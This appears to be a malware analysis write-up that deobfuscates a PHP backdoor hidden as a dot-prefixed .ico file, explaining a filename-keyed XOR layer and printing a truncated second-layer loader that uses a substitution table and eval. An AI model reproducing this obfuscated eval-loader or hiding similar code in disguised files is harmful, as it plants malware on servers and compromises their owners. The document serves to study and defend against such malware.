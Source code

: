 Not that it looks vastly better, but it does help performing the analysis. So looking at line 1, we can see that it is using the path and filename of itself for some purpose. A purpose that involves urlencoded strings, a replacement of characters and stripping some characters. Fortunately, the easiest way to find out what happening is to just echo out the variable. Doing this echo revealed that the variable contained the exact name of the file. I had originally been given the file via pastebin. I asked, and was given the original file. The extension was an ico (icon) type. The file name also started with a dot (.), which is the way of making a hidden file in Linux / Unix.

The second string appeared to be encoded text, which left the third to look at. On further inspection, renaming the 2 strings to var_a and var_b made the code clearer. So the malware takes the filename (var_a) repeatedly until it is the length of the encoded string, once that has been raw url dedcoded. The decoded second variable (var_b) is then XOR'd with string made from var_a. Changing the eval to an echo and running the code, piped to a new file allowed the first layer to peel away.

# Layer 2 - Character Substitution

The next layer wasn't quite as tricky. Below is a truncated output from the first layer. Again, comments have creeped back it.

```PHP
if (!defined('stream_context_create '))
{
define('stream_context_create ', 1);

 $oigad = 3910; function inbqn($egepmaje, $ealwaknj){$oyjwthy = ''; for($i=0; $i < strlen($egepmaje); $i++){$oyjwthy .= isset($ealwaknj[$egepmaje[$i]]) ? $ealwaknj[$egepmaje[$i]] : $egepmaje[$i];}
$zcudgqmmyb="rawurl" . "decode";return $zcudgqmmyb($oyjwthy);}
$zogyxk = '%hW%hd%hW%hd%6hgBg_SXo%pM%pwXtt8t_i8k%pw%pc%phDTrr%'.
'p7%FP%hW%hd%6hgBg_SXo%pM%pwi8k_Xtt8tS%pw%pc%phh%p7%FP%hW%hd%6hgBg_SXo%pM%pwmLV'.
'_XVXGzog8B_ogmX%pw%pc%phh%p7%FP%hW%hd%6hXtt8t_tXj8togBk%pMh%p7%FP%hW%hd%6hSXo_ogmX_'.
'igmgo%pMh%p7%FP%hW%hd%hW%hd%hW%hdgx%pM%pRYXxgBXY%pM%ppIuI_1Cr%pp%p7%p7%hW%hd%wP%hW%hd%ph'.
...
'VgG%pM%p7%FP%hW%hd%wW';
$nudubg = Array('1'=>'E', '0'=>'z', '3'=>'6', '2'=>'V', '5'=>'y', '4'=>'v', '7'=>'9', '6'=>'4', '9'=>'W', '8'=>'o', 'A'=>'q', 'C'=>'O', 'B'=>'n', 'E'=>'M', 'D'=>'N', 'G'=>'c', 'F'=>'3', 'I'=>'P', 'H'=>'Z', 'K'=>'G', 'J'=>'h', 'M'=>'8', 'L'=>'a', 'O'=>'5', 'N'=>'b', 'Q'=>'R', 'P'=>'B', 'S'=>'s', 'R'=>'1', 'U'=>'K', 'T'=>'U', 'W'=>'D', 'V'=>'x', 'Y'=>'d', 'X'=>'e', 'Z'=>'j', 'a'=>'J', 'c'=>'C', 'b'=>'X', 'e'=>'S', 'd'=>'A', 'g'=>'i', 'f'=>'w', 'i'=>'l', 'h'=>'0', 'k'=>'g', 'j'=>'p', 'm'=>'m', 'l'=>'Y', 'o'=>'t', 'n'=>'k', 'q'=>'I', 'p'=>'2', 's'=>'F', 'r'=>'L', 'u'=>'H', 't'=>'r', 'w'=>'7', 'v'=>'Q', 'y'=>'T', 'x'=>'f', 'z'=>'u');
eval/*fxkn*/(inbqn($zogyxk, $nudubg));
}
```

So the first thing to notice is that the malware is checking to see if it is already present, and been defined. If it hasn't, then it defines itself.

The array that is assigned to $nudubg is interesting. It is defining a text substitution. We can also see that the words "rawurl" and "decode" are added together. We also have a very long obfuscated string. To prove this theory, I again replaced the eval with an echo, and ran the code, redirected to an new file. Lo and behold, the second layer peels away, and now we are on the main functions of the malware.
